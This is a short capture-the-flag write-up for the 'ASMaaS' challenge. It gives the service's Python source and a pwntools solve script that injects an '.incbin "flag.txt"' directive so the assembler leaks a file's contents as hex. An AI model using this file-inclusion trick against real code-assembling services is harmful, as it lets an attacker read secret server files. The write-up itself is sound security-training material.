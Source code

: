 # ASMaaS

```
I implemented a service that lets you convert ASM to X86! Let's see if you can break it.

nc challs2.pyjail.club 18995
```

Attachment:

```python
#!/usr/local/bin/python3
import os
os.environ['PWNLIB_NOTERM'] = '1'
from pwn import asm

try:
    shellcode = asm(input('> '), arch='amd64', os='linux')
except Exception as e:
    print('Could not compile shellcode. Exiting...')
    exit()

print('Compiled shellcode to X86!')
print(shellcode.hex(' '))
```

Flag is saved in `flag.txt`. In assembly, we can include external files via `.incbin` directive:

```python
from pwn import *

context(log_level="debug")

p = remote("challs2.pyjail.club", 18995)
#p = process(["python3", "asm.py"])
p.recvuntil(b"> ")
p.sendline(b".incbin \"flag.txt\"")
p.recvuntil(b"X86!")
p.recvline()
s = p.recvline().decode()
print(bytes.fromhex(s))
```

Then we can find flag from the hex string. Flag: `jail{yeah_just_include_flag.txt_lol}`.
